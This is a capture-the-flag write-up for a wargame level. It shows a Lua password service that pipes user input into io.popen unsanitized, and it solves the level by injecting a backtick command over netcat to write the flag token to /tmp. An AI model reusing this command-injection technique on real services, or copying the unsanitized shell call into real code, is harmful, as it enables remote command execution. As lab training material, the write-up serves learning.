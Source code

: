 # level11 solve

To begin, when we get logged and trying to see if we got the file we can see we have one file

```
$ ls
> level11.lua
```

It's a <a href="https://fileinfo.com/extension/lua">Lua</a> file, so we decide to check what he contain. 

And multiple line was interesting.

```lua
 1  #!/usr/bin/env lua
 2  local socket = require("socket")
 3  local server = assert(socket.bind("127.0.0.1", 5151))
 4  function hash(pass)
 5    prog = io.popen("echo "..pass.." | sha1sum", "r")
 6    data = prog:read("*all")
 7    prog:close()
 8    data = string.sub(data, 1, 40)
 9    return data
10  end

11  while 1 do
12    local client = server:accept()
13    client:send("Password: ")
14    client:settimeout(60)
15    local l, err = client:receive()
16    if not err then
17        print("trying " .. l)
18        local h = hash(l)
19        if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
20            client:send("Erf nope..\n");
21        else
22            client:send("Gz you dumb*\n")
23        end
24    end
25    client:close()
26  end
```

But two were more intriguing than the others, <a href="https://man7.org/linux/man-pages/man3/popen.3.html">popen</a> and <a href="https://opensharing.fr/commandes-linux-sha1sum">sha1sum</a>

```
$ man popen
> The popen() function opens a process by creating a pipe, forking,
> and invoking the shell.  Since a pipe is by definition
> unidirectional, the type argument may specify only reading or
> writing, not both; the resulting stream is correspondingly read-
> only or write-only.
> 
> The command argument is a pointer to a null-terminated string
> containing a shell command line.  This command is passed to
> /bin/sh using the -c flag; interpretation, if any, is performed
> by the shell.
```

After that we conclude that was popen the thing to work with,
so let's try to connect on the listenner

remember :

```
> 3  local server = assert(socket.bind("127.0.0.1", 5151))
```

```
$ nc localhost 5151
> password : 
```

Maybe we need to inject code for the popen, let's try

```
$ nc localhost 5151
> password : `getflag` > /tmp/flag
```

Verifying the file

```
$ cat /tmp/flag
> Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level10">previous level</a> - <a href="../../level12">next level</a>

